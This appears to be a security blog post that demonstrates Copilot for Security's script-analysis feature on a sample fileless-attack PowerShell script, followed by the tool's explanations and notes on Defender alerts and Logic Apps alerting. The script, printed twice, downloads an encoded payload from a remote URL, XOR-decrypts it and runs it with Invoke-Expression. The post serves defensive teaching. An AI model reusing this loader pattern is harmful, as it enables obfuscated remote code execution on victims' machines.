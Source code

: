 ```yaml
---
title: "Copilot for Security - script analysis integration" 
categories:
  - Security Copilot
---
```


Copilot for Security is great: among the many capabilities it offers (KQL query in natural language, incident summary and reporting, Threat Hunting with Threat Intelligence etc) it also allows you to analyze scripts! This can be useful from a purely descriptive perspective - what a script performs - but also from a security perspective, especially if the script is voluntarily obfuscated/encoded by the attacker.

As we know - ref. to previous blog [post](https://mccybersec.github.io/security%20copilot/what-is-security-copilot/) - Copilot for Security can be used in two ways:
- embedded experience: Copilot for Security features within the various Microsoft Security tools that can be quickly recalled to speed up investigation and analysis.
- standalone portal: the official Copilot for Security portal where it is possible to connect information from different sources from a single central hub

Let's take a practical example scenario. <br>
The following is an example of a fileless attack (don't worry, it just opens a notepad.exe).

```powershell
[Net.ServicePointManager]::SecurityProtocol= [Net.SecurityProtocolType]::Tls12;

$xor= [System.Text.Encoding]::UTF8.GetBytes('WinATP-Intro-Injection');
$base64String = (Invoke-WebRequest -URI https://wcdstaticfilesprdeus.blob.core.windows.net/wcdstaticfiles/WinATP-Intro-Fileless.txt -UseBasicParsing).Content;
Try{
	$contentBytes= [System.Convert]::FromBase64String($base64String)
} Catch { 
	$contentBytes= [System.Convert]::FromBase64String($base64String.Substring(3)) 
};

$i = 0;
$decryptedBytes= @();

$contentBytes.foreach{
	$decryptedBytes+= $_ -bxor$xor[$i];
	$i++;
	if ($i -eq$xor.Length) {
		$i = 0
	}
};

Invoke-Expression([System.Text.Encoding]::UTF8.GetString($decryptedBytes))
```

If the script is run on a device protected by Defender for Endpoint an incident in Defender XDR is raised - and depending on how the device is defined, self-investigation and remediation may occur.

> **Suspicious process injection observed on one endpoint**


But...what if you are a junior cybersecurity analyst and need to understand what the script does?<br>
No problem, ask Copilot for Security! <br>
With the [_Analyze Script_](https://learn.microsoft.com/en-us/microsoft-365/security/defender/security-copilot-m365d-script-analysis?view=o365-worldwide) capability of Copilot for Security you can get information directly in the Defender portal or you can create a new session in the standalone experience.

Here are two prompts - part of a longer promptbook - to run to get insights about the script

### PROMPT 1 
> _The following script was found as part of a potential security incident. Explain what this script does step by step and infer the intent. Also note any actions expressed that could be malicious in nature, including destructive activities, stealing of information, or changing of sensitive settings:_<br><br>
[Net.ServicePointManager]::SecurityProtocol= [Net.SecurityProtocolType]::Tls12; $xor= [System.Text.Encoding]::UTF8.GetBytes('WinATP-Intro-Injection'); $base64String = (Invoke-WebRequest -URI https://wcdstaticfilesprdeus.blob.core.windows.net/wcdstaticfiles/WinATP-Intro-Fileless.txt -UseBasicParsing).Content; Try{ $contentBytes= [System.Convert]::FromBase64String($base64String) } Catch { $contentBytes= [System.Convert]::FromBase64String($base64String.Substring(3)) }; $i = 0; $decryptedBytes= @(); $contentBytes.foreach{ $decryptedBytes+= $_ -bxor$xor[$i]; $i++; if ($i -eq$xor.Length) { $i = 0 } }; Invoke-Expression([System.Text.Encoding]::UTF8.GetString($decryptedBytes))

##### RESPONSE
The provided PowerShell script performs several actions to download encrypted content from a specific URL, decrypt it using a XOR cipher with the key 'WinATP-Intro-Injection', and then execute the decrypted content. The script uses TLS 1.2 for secure communication and handles potential errors during the base64 decoding process. The decrypted content is likely to be a PowerShell script or commands. Here's a step-by-step breakdown:

1. The script sets the security protocol for the current session to TLS 1.2. This is a standard security practice to ensure secure communication.
2. It then defines a byte array $xor from the UTF8 encoding of the string 'WinATP-Intro-Injection'. This string is used as a key for the XOR cipher.
3. The script makes a web request to the URL and stores the content in $base64String. The content is expected to be a base64 encoded string.
4. It attempts to convert the content from base64 to a byte array. If the conversion fails, it tries again by skipping the first three characters of the base64 string. This is a common error handling technique for base64 decoding.
5. The script then performs a bitwise XOR operation on each byte in the content with a corresponding byte in the $xor array, effectively decrypting the content.
6. Finally, it converts the decrypted bytes back to a string and executes it. This is where the potential malicious activity could occur, as the decrypted content is executed without any validation or checks.

The intent of this script appears to be to download and execute a potentially malicious script from a remote server. The use of encryption and error handling suggests a level of sophistication and intent to evade detection. The actual maliciousness of the script would depend on the content that is downloaded and executed. Without that information, it's impossible to definitively say what the script does beyond its decryption and execution activities.

### PROMPT 2 
> _Is this script malicious?_

##### RESPONSE
The script you provided is potentially malicious, depending on the content it downloads and executes. The script itself is designed to download a file from a specific URL, decrypt it using a XOR cipher, and then execute the decrypted content. This behavior is often associated with malicious scripts as it allows an attacker to execute arbitrary code on a compromised system

---

If the device is also protected by Defender for Cloud for Server, various alerts may appear on the portal, such as
> **Detected encoded executable in command line data** <br>
> **Fileless attack behavior detected** <br>
> **Fileless attack technique detected** <br>

But... Defender for Cloud allows you to initiate response flows to alerts raised in your environment with the use of Logic Apps. Why not immediately inform the SOC of this alert via email - with an email containing the insights given by Copilot for Security , automatically and without manual actions?
It's possible thanks to the Logic Apps Copilot for Security [connector](https://learn.microsoft.com/en-us/connectors/securitycopilot/)!

![Script Analysis Workflow Defender for Cloud and Logic App](/assets/images/scriptanalysis.png)


For more information don't hesitate to contact me!<br>
Thank you for taking time to read.

Stay tuned!<br>
_Mario_